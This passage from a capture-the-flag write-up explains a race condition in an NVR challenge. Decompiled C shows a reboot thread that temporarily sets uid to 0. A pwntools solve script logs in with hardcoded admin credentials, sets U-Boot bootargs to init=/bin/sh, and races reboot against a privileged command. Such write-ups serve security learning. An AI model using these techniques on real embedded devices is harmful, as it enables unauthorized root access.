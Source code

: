 Interestingly, one of the commands that we have access to allows us to **reboot the nvr_kernel**.

```c
unsigned __int64 __fastcall reboot_nvr_kernel(int *uid)
{
  pthread_t newthread; // [rsp+10h] [rbp-10h] BYREF
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  if ( pthread_create(&newthread, 0LL, (void *(*)(void *))reboot_nvr_kernel_internal, uid) )
    perror("pthread_create");
  else
    pthread_detach(newthread);
  return v3 - __readfsqword(0x28u);
}

void *__fastcall reboot_nvr_system(int *uid)
{
  int v2; // [rsp+14h] [rbp-Ch]

  v2 = *uid;
  *uid = 0;
  puts("Shutdown NVR system...");
  sub_247F();
  *uid = v2;
  puts("Boot complete.\n");
  return 0LL;
}
```

This is done by spawning a new thread which sets `uid` to 0 while the system is still booting.

Since this is done in a separate thread, we can still run commands on the main thread.

**This creates a race condition where we can run `print device` with `uid = 0` while the kernel is rebooting.**

### Solve script

```py
from pwn import *

p = remote("chal.h4c.cddc2025.xyz", 11835)

p.sendlineafter(b"login.", b"")
p.sendlineafter(b"Login:", b"admin")
p.sendlineafter(b"Password:", b"uboot4dmin123!@")

# we need to set init=/bin/sh to get an interactive nvr_system shell
p.sendlineafter(b"uboot>", b'setenv bootargs init=/bin/sh')
p.sendlineafter(b"uboot>", b"boot")

# race condition, reboot and print device at the same time
p.sendlineafter(b"\n#", b"reboot")
p.sendlineafter(b"\n#", b"print device")

p.interactive()
```
